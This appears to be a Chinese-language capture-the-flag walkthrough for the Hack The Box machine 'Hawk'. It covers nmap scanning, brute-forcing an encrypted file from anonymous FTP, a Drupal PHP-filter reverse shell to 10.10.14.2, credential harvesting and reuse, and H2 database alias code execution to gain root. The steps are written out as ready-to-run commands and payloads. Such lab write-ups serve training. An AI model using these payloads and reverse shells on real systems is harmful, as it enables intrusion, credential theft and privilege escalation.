

nmap

```bash
nmap -T4 -p- -vv -sV 10.10.10.102
```


ftp匿名登录，发现` .drupal.txt.enc`


下载到本地查看发现是openssl文件base64编码了

```bash
wget -r ftp://10.10.10.102/messages/
```


base64解码后尝试openssl解密


解密脚本

<https://github.com/HrushikeshK/openssl-bruteforce>

```bash
python2 brute.py /usr/share/wordlists/rockyou.txt ciphers.txt drupal.txt
```



获得密码：`PencilKeyboardScanner123`

80端口，`Drupal`


发现ftp获得的密码就是Drupal的后台密码

`admin/PencilKeyboardScanner123`

发现可以启动`PHP filter`模块


可以解析文档中的php代码


反弹shell

```bash
<?php 
echo "hack!!!";
echo exec("bash -c 'bash -i >& /dev/tcp/10.10.14.2/2333 0>&1'");
?>
```

保存就直接执行了


敏感信息收集，从代码中找到了密码 `drupal4hawk`

```bash
find /var/www/html/ -name '*.php'|xargs grep 'password' 2>/dev/null
```


./sites/default/settings.php


除了mysql，可能其他用户也使用了这个密码，最后试到ssh用户密码是`daniel/drupal4hawk`


切到bash

```bash
import pty;pty.spawn("/bin/bash")
```


提权

8082端口只允许本地访问，使用ssh把流量转发出去


```bash
ssh -L 8888:127.0.0.1:8082 daniel@10.10.10.102
```

访问本地8082


将jdbc url指定到root目录，直接连接


连接成功：


这里有个注入问题：

<https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html>

创建一个执行命令的函数 `SHELLEXEC111`

```bash
CREATE ALIAS SHELLEXEC111 AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;

```


调用函数`SHELLEXEC111`

```bash
call SHELLEXEC111('id')
```


反弹shell

在daniel下创建一个shell

```bash
daniel@hawk:~$ cat /home/daniel/shell 
bash -i >& /dev/tcp/10.10.14.2/2444 0>&1
daniel@hawk:~$ chmod +x /home/daniel/shell 
daniel@hawk:~$ 

```

使用root执行/home/daniel/shell&#x20;

```bash
call SHELLEXEC111('bash /home/daniel/shell')

```


